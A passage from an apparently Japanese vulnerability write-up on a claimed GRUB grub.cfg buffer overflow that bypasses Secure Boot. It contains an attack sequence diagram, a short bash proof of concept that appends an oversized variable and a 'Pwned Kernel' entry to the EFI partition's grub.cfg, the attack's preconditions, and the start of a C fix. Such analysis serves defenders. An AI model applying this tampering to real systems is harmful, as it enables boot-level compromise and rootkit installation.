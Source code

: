 ```c
  return 0;
}
```

#### 攻撃シナリオ

```mermaid
sequenceDiagram
    participant A as 攻撃者
    participant ESP as EFI System Partition
    participant Shim as shim.efi
    participant GRUB as grub.efi
    participant Kernel as Linux Kernel

    A->>ESP: grub.cfg を改竄<br/>(長大な文字列を設定)
    A->>A: システム再起動
    Shim->>Shim: Secure Boot 検証<br/>(GRUB の署名は正常)
    Shim->>GRUB: 実行開始
    GRUB->>GRUB: grub.cfg を読み込み
    GRUB->>GRUB: バッファオーバーフロー<br/>リターンアドレス改竄
    GRUB->>GRUB: シェルコード実行
    GRUB->>Kernel: 署名なしカーネルをロード<br/>(Secure Boot 迂回)
    Kernel-->>A: ルートキット動作開始
```

#### PoC (Proof of Concept)

```bash
# grub.cfg に悪意のあるエントリを追加
cat <<EOF >> /boot/efi/EFI/ubuntu/grub.cfg
set some_var="$(python3 -c 'print("A" * 2000)')"
menuentry "Pwned Kernel" {
    linux /vmlinuz-pwned root=/dev/sda1
    initrd /initrd-pwned.img
}
EOF

# 次回起動時にバッファオーバーフローが発生
# リターンアドレスを制御し、任意のコードを実行
```

### 攻撃の成立条件

1. **書き込み権限**: ESP (EFI System Partition) への書き込み権限（通常は root）
2. **物理アクセス**: または OS レベルの管理者権限
3. **Secure Boot 有効**: パラドックスだが、Secure Boot が有効でないと攻撃の価値が低い

### 修正方法

```c
// grub-core/normal/main.c (修正版)
static grub_err_t
grub_cmd_set (struct grub_command *cmd __attribute__ ((unused)),
              int argc, char **args)
{
  char *var;
  char *val;

  if (argc < 1)
    return grub_error (GRUB_ERR_BAD_ARGUMENT, "no variable specified");

  var = args[0];

  // 変数名の長さチェック
  if (grub_strlen (var) > GRUB_ENV_VAR_MAX_LEN) {
```
